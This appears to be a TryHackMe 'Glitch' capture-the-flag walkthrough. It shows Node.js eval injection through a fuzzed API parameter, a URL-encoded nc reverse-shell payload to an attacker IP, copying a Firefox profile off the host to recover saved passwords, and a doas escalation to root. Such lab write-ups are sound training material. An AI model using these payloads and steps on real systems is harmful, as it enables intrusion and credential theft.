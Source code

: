 ![GLITCH ROOM LOGO](./img/GLITCH.jpeg)
# GLITCH 
Challenge showcasing a web app and simple privilege escalation. Can you find the [glitch](https://tryhackme.com/room/glitch)?

## [Q1] Deploy the machine
Required OpenVPN to connect to corresponding server
## [Q2] What is your access token?
   Let's begin with scanning open ports of this machine

   ```
   $nmap -T4 <machine ip>

   Nmap scan report for <machine ip>
   Host is up (0.29s latency).
   Not shown: 999 filtered ports
   PORT   STATE SERVICE
   80/tcp open  http
   Nmap done: 1 IP address (1 host up) scanned in 23.42 seconds
   ```

   Port 80:
   ![Port 80](./img/site1.jpg)
   By looking at the source of the site, I found a script:

   ```JavaScript
    <script>
        function getAccess() {
            fetch('/api/access')
            .then((response) => response.json())
            .then((response) => {
                console.log(response);
            });
        }
    </script>
```
I run the getAccess() function through the browser by console tab, but you can also access that by browsing to \<machine ip>/api/access

![](./img/Console.jpg)

By decoding, I will get the original token and should set that in cookie

![Session cookie](./img/session.jpg)

## [Q3] What is the content of user.txt?
Now refresh the page.
Feel free to surf the site after that XD

***

Warning! The site contains blinking images and sensitive words.

***

After looking at the source and linked [JS](./src/script.js) file, I figured out that there are several links in the page that interact with \<machine ip>/api/items/ 

\<machine ip>/api/items :
![/api/items](./img/items.jpg)

There is a hint on THM:

    What other methods does the API accept?

Let's check the methods by sending an **OPTION** http request
    
    Allow: GET,HEAD,POST

So I should fuzz the site to find valid arguments

    └─$wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/api/objects.txt -X POST --hc 404,400 <machine ip>/api/items\?FUZZ\=test

    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: <machine ip>/api/items?FUZZ=test
    Total requests: 3132

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                             
    =====================================================================

    000000358:   500        10 L     64 W       1081 Ch     "cmd"                                               

    Total time: 0
    Processed Requests: 3132
    Filtered Requests: 3131
    Requests/sec.: 0

Let's check cmd

    └─$ curl -X POST <machine ip>/api/items\?cmd\=ls
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: ls is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>


So it's a **Node.JS**. Maybe I can get rce by Node.js eval ...


Reverse shell payload:

    require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacker IP> <Attacker Port> >/tmp/f ')

First, I must encode the payload as a URL, and then It's good to go

    └─$ curl -X POST <Machine IP>/api/items\?cmd\=%72%65%71%75%69%72%65%28%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%22%29%2e%65%78%65%63%28%27%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%3c%41%74%74%61%63%6b%65%72%20%49%50%3e%20%3c%41%74%74%61%63%6b%65%72%20%50%6f%72%74%3e%20%3e%2f%74%6d%70%2f%66%20%27%29

I have a reverse shell :D

    └─$ nc -nvlp 4444             
    listening on [any] 4444 ...
    connect to [<Attacker IP>] from (UNKNOWN) [<Machine IP>] 32804
    /bin/sh: 0: can't access tty; job control turned off
    $ 
    $ python3 -c 'import pty;pty.spawn("/bin/bash")'
    user@ubuntu:/var/web$ ls /home
    ls /home
    user  v0id
    user@ubuntu:/var/web$ cd /home/user/ 
    cd /home/user/
    user@ubuntu:~$ cat user.txt
    cat user.txt
    THM{REDACTED}


## [Q4] What is the content of root.txt?

User's Home Directory:

    user@ubuntu:~$ ls -la
    ls -la
    total 48
    drwxr-xr-x   8 user user  4096 Jan 27 10:33 .
    drwxr-xr-x   4 root root  4096 Jan 15 14:13 ..
    lrwxrwxrwx   1 root root     9 Jan 21 09:05 .bash_history -> /dev/null
    -rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
    drwx------   2 user user  4096 Jan  4 13:41 .cache
    drwxrwxrwx   4 user user  4096 Jan 27 10:32 .firefox
    drwx------   3 user user  4096 Jan  4 13:41 .gnupg
    drwxr-xr-x 270 user user 12288 Jan  4 14:07 .npm
    drwxrwxr-x   5 user user  4096 Apr  2 16:11 .pm2
    drwx------   2 user user  4096 Jan 21 08:47 .ssh
    -rw-rw-r--   1 user user    22 Jan  4 15:29 user.txt

linPEAS interesting results:

    [+] Checking doas.conf
    permit v0id as root  

    [+] Users with console
    root:x:0:0:root:/root:/bin/bash      
    user:x:1000:1000:user:/home/user:/bin/bash
    v0id:x:1001:1001:,,,:/home/v0id:/bin/bash

For now, I'm going to check firefox hidden directory by sending that to my machine

    user@ubuntu:~$ tar -cvf firefox.tgz .firefox 

    ---
    Don't forget to start ssh in your machine
    ---

    user@ubuntu:~$ scp firefox.tgz <Attacker Machine username>@<Attacker IP>:
    scp firefox.tgz <Attacker Machine username>@<Attacker IP>:
    <Attacker Machine username>@<Attacker IP>'s password:

    firefox.tgz                                   100%   15MB 385.3KB/s   00:39 


Now in my machine:

    └─$ tar -xvf firefox.tgz 
    └─$ firefox --profile .firefox/b5w4643p.default-release --allow-downgrade

This will open the firefox browser and I can head to saved passwords

![void pass](./img/firefox.jpg)

Now with linPEAS' output and saved password in the firefox for user v0id I can retrieve /root/root.txt

    user@ubuntu:~$ su - v0id -c "doas -u root bash -c 'cat /root/root.txt'"
    su - v0id -c "doas -u root bash -c 'cat /root/root.txt'"
    Password: 

    Password: 

    THM{REDACTED}

